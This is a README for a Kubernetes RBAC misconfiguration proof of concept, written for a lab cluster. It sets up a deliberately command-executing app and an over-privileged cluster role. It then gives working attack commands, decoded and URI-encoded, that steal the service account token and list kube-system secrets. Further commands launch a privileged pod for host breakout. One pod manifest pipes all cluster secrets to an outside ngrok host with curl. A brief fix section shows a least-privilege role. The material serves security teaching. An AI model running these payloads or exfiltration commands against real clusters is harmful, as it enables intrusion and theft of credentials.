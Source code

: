 # RBAC issues

## Context
RBAC (Role-based access control) (wiki)[https://en.wikipedia.org/wiki/Role-based_access_control].

When a k8 cluster defines resources, it decides what permissions each resource is entitled to;
Misconfiguring a resource can result K8 cluster components performing outside of their scope, i.e.:
* Exposing inner cluster secrets, tokens and basically everything accessible by the K8 inner API
* Spinning up a privileged pod and gaining root over the host [[Kiril's demo](k8s/PrivilegedPod)]  

### PoC explanation
We'd like to demo what can happen if one managed to access a wrongfully-permissioned resource (via a container in this case);

Our demo begins **after** one has achieved RCE on a cluster container and will showcase what can happen starting from that point;

> We chose not to demo RCE-achieving on a container as this diverges from the intent of this demo and was also demoed before.  

That being said, the steps will begin by interacting with one of the containers themselves as in you were in already in RCE state 

## Setup

Run the following:
```
$ minikube start
$ ...
$ ./build.sh # chmod +x if needed
```

This will do the following:
* Spin up an "app" pod(`:3000`), simple NodeJs app which basically executes any command given (our entry point for initial RCE);
* Define a new "CI service", set the "app" service account as "CI Service"
* Define a new cluster role "CI role" **as too privileged**(got access to `*`)
* Define a cluster role binding and set "CI service" to be of "CI role"

## Exploit

<details>
  <summary>Spoiler alert</summary>
As we explained, we start our journey from the "ci app" and perform RCE using it;
The way we interact w/ the app is via HTTP requests to `/?cmd=<ANY_BASH_CMD>`;

> This means that we execute the commands inside a pod!
>
That being said, let's fetch the IP of this service initially from within our local cluster:

```
$ minikube service ci-service --url=true
```
This should return something like: `http://192.168.39.72:30553`
> in the wild we would access this app via public internet; in this demo we must get it from our minikube first;
 
> From this point on we will use `` to evaluate bash commands;

Let's start w/ a small tests - run `ls`:
````
curl `minikube service ci-service --url=true`?cmd=ls
````

Now let's list all env variables:
> Do note `KUBE_TOKEN` and `KUBERNETES_PORT_443_TCP_PORT` in the dump 
````
curl `minikube service ci-service --url=true`?cmd=env
````

Get the service account token from `/run/secrets/kubernetes.io/serviceaccount/token`:
````
curl `minikube service ci-service --url=true`?cmd=cat%20/run/secrets/kubernetes.io/serviceaccount/token
````

Now that we have the inner K8 token, we can query for admin stuff using `KUBE_TOKEN` and the [K8 API](https://kubernetes.io/docs/concepts/overview/kubernetes-api/)
> Each example will contain a `decoded` and `encoded` parts; Each has the same payload, tho the encoded version is URI encoded, so we can use spaces etc
> 
> Use this website to uri encode for easy encoding: https://meyerweb.com/eric/tools/dencoder/
````
decoded

KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%2F%24HOSTNAME
````

List all secrets
````
decoded
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets/

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%2F%0A
````

### Examples
#### 1. Vulnerable pod
We first need to write a json file and then apply it to the cluster (like `kubectl apply -f FILE`)
> Note the `privileged:true` in the pod declaration! This leads to root on the host if the attacker wants to. 

generate nginx pod (visualise changes with `minikube dashboard`)
````
decoded

cat > nginx-pod.json <<EOF
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "name": "nginx-pod"
    },
    "spec": {
        "containers": [
            {
                "name": "nginx",
                "image": "nginx:1.7.9",
                "ports": [
                    {
                        "containerPort": 80
                    }
                ],

                "securityContext":{
                    "privileged": true
                }
            }
        ]
    }
}
EOF


ENCODED
cat%20%3E%20nginx-pod.json%20%3C%3CEOF%0A%7B%0A%20%20%20%20%22apiVersion%22%3A%20%22v1%22%2C%0A%20%20%20%20%22kind%22%3A%20%22Pod%22%2C%0A%20%20%20%20%22metadata%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx1%22%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22spec%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22containers%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22ports%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22containerPort%22%3A%2080%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22securityContext%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22privileged%22%3A%20true%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%7D%0A%7D%0AEOF
````
dispatch it
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@nginx-pod.json    


ENCODED
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40nginx-pod.json
```

This is it! :) 
From this point one can tap into the privileged container and "break out of it";

#### 2. Malicious Pod
Below is an example of pod. This pod is malicious as it dispatches (via simple `curl`) all the k8 secrets once running;
> I'm using ngrok for simple globally-accessible local server. [See here for installation](https://dashboard.ngrok.com/get-started/setup).
>
> Once installed, initiate the server (`$ ngrok http 3000`)and swap the IP in the malicious pod to the one from your ngrok client; 
> you can browse to `http://127.0.0.1:4040` to see visual log of the connections  

Malicious pod
```

decoded
cat > bad-pod.json <<EOF
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "bad-pod",
	},
	"spec": {
		"containers": [
			{
                "name": "nginx",
                "image": "nginx:1.7.9",
				"command": [
					"/bin/bash"
				],
				"args": [
					"-c",
					"apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | curl http://166a39ea.ngrok.io; sleep 100000"
				]
			}
		],
		"serviceAccountName": "ci-service",
		"automountServiceAccountToken": true,
		"hostNetwork": true
	}
}
EOF

ENCODED
cat%20%3E%20bad-pod.json%20%3C%3CEOF%0A%7B%0A%09%22apiVersion%22%3A%20%22v1%22%2C%0A%09%22kind%22%3A%20%22Pod%22%2C%0A%09%22metadata%22%3A%20%7B%0A%09%09%22name%22%3A%20%22nginx2%22%2C%0A%09%7D%2C%0A%09%22spec%22%3A%20%7B%0A%09%09%22containers%22%3A%20%5B%0A%09%09%09%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%09%09%09%09%22command%22%3A%20%5B%0A%09%09%09%09%09%22%2Fbin%2Fbash%22%0A%09%09%09%09%5D%2C%0A%09%09%09%09%22args%22%3A%20%5B%0A%09%09%09%09%09%22-c%22%2C%0A%09%09%09%09%09%22apk%20update%20%26%26%20apk%20add%20curl%20--no-cache%3B%20cat%20%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%20%7C%20%7B%20read%20TOKEN%3B%20curl%20-k%20-v%20-H%20%5C%22Authorization%3A%20Bearer%20%24TOKEN%5C%22%20-H%20%5C%22Content-Type%3A%20application%2Fjson%5C%22%20https%3A%2F%2F192.168.154.228%3A8443%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%3B%20%7D%20%7C%20curl%20http%3A%2F%2F166a39ea.ngrok.io%3B%20sleep%20100000%22%0A%09%09%09%09%5D%0A%09%09%09%7D%0A%09%09%5D%2C%0A%09%09%22serviceAccountName%22%3A%20%22ci-service%22%2C%0A%09%09%22automountServiceAccountToken%22%3A%20true%2C%0A%09%09%22hostNetwork%22%3A%20true%0A%09%7D%0A%7D%0AEOF
```

Dispatch
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@bad-pod.json

encoded
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40bad-pod.json
```
</details>


### Fix

To fix this problem one should set the role permissions when defining a cluster role.
For example, in our cluster we have defined the following `ClusterRole`:
```
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: ci-role
rules:
  - apiGroups: [""]
    resources: ["*"]
    verbs: ["*"]
``` 
A more secure version for the same role, would look something like this:
```
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: ci-role
rules:
  - apiGroups: [""] # empty string indicates the core api group
    resources: ["pods"] # note that we specify resources, and not wildcard
    verbs: ["get"] # actions w.r.t the allowed resources
``` 
